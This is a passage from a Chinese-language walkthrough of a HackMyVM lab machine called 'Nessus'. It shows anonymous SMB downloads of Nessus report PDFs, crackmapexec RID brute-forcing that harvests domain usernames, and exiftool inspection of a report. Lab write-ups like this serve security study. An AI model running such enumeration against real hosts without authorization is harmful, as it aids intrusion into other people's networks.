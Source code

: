 ```bash
  ..                                  D        0  Sat Oct 19 13:08:23 2024
  desktop.ini                       AHS      402  Sun Jun 16 01:54:33 2024
  My Basic Network Scan_hwhm7q.pdf      A   122006  Sat Oct 19 06:19:59 2024
  My Music                        DHSrn        0  Sun Jun 16 01:54:27 2024
  My Pictures                     DHSrn        0  Sun Jun 16 01:54:27 2024
  My Videos                       DHSrn        0  Sun Jun 16 01:54:27 2024
  Web Application Tests_f6jg9t.pdf      A   136025  Sat Oct 19 06:20:14 2024

                12942591 blocks of size 4096. 10637803 blocks available

smb: \> get "My Basic Network Scan_hwhm7q.pdf"
getting file \My Basic Network Scan_hwhm7q.pdf of size 122006 as My Basic Network Scan_hwhm7q.pdf (6619.2 KiloBytes/sec) (average 6619.2 KiloBytes/sec)
smb: \> get "Web Application Tests_f6jg9t.pdf"
getting file \Web Application Tests_f6jg9t.pdf of size 136025 as Web Application Tests_f6jg9t.pdf (7813.9 KiloBytes/sec) (average 7199.5 KiloBytes/sec)

```
> 这里文件都是有空格的。读取的时候记得加上双引号包起来

### 3.2. Nessus 报告检测
下载的两个 pdf 文件里面是 `Nessus` 的检测报告，
![2pptmtbbfyw](/img/user/24-渗透/HMV/assets/l70fhfkoz6.png)
![ubj32k2rds](/img/user/24-渗透/HMV/assets/ouekbtxpf4p.png)
这里看着有一大堆洞。但我先不考虑去利用他，因为我不会
## 4. RID-bruteforce
靶机开放了 135（RPC 服务）与 445(SMB 服务) 而且还允许 SMB 匿名访问
那么我们就可以进行 RID 枚举爆破出域内用户信息
```bash
┌──(root㉿kali)-[/home/kali/hmv/Nessus]
└─# crackmapexec smb 192.168.56.156 -u 'anonymous' -p '' --rid-brute > rid_bruteforce.txt

┌──(root㉿kali)-[/home/kali/hmv/Nessus]
└─# cat rid_bruteforce.txt | grep 'SidTypeUser' | cut -d '\' -f2 | cut -d ' ' -f1 > domain_users.txt

┌──(root㉿kali)-[/home/kali/hmv/Nessus]
└─# cat domain_users.txt
Administrator
Guest
DefaultAccount
WDAGUtilityAccount
nesus

```
可以发现主机有一个 nesus 用户
## 5. 检测报告利用
```bash
┌──(root㉿kali)-[/home/kali/hmv/Nessus]
└─# exiftool My\ Basic\ Network\ Scan_hwhm7q.pdf
ExifTool Version Number         : 12.76
File Name                       : My Basic Network Scan_hwhm7q.pdf
Directory                       : .
File Size                       : 122 kB
File Modification Date/Time     : 2024:11:24 13:09:43+08:00
File Access Date/Time           : 2024:11:24 13:16:35+08:00
File Inode Change Date/Time     : 2024:11:24 13:09:43+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
```